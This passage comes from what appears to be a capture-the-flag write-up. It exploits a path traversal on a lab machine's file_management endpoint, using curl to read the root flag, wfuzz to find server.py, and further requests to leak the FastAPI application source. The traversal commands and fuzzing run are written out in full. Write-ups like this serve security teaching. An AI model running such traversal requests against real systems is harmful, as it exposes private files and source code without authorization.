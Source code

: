 

    oxdf@parrot$ curl http://10.10.11.123/file_management/?file=../../../../root/user.txt
    d197bc88************************



That would be hard to guess in a live competition.

Still, I can fuzz for Python files in the same and parent directories
with `wfuzz`. I didn't find anything in the current directory, but going
up one:



    oxdf@parrot$ wfuzz -u http://10.10.11.123/file_management/?file=../FUZZ.py -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 21
    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************

    Target: http://10.10.11.123/file_management/?file=../FUZZ.py
    Total requests: 2588

    ===================================================================
    ID           Response   Lines    Word     Chars       Payload
    ===================================================================

    000000212:   200        4 L      10 W     115 Ch      "server"

    Total time: 13.24183
    Processed Requests: 2588
    Filtered Requests: 2587
    Requests/sec.: 195.4412



The file loads the app:



    oxdf@parrot$ curl http://10.10.11.123/file_management/?file=../server.py 
    import uvicorn

    if __name__ == "__main__":
        uvicorn.run("app.main:app", host="0.0.0.0", port=8000, reload=True)



`app.main:app` says it is going into a directory named `app`, loading
`main.py`, and then calling the `app` function.

I can leak the full source:



    oxdf@parrot$ curl http://10.10.11.123/file_management/?file=../app/main.py                           
    from typing import Optional
    from fastapi import File, UploadFile, Request 
    from fastapi import FastAPI    
    from fastapi.encoders import jsonable_encoder
    from fastapi.responses import FileResponse, JSONResponse, PlainTextResponse
    from random import randrange                        
    import os, subprocess
    import json
    import uvicorn               
    import app.database           
    from urllib.parse import parse_qs
    import app.models                 
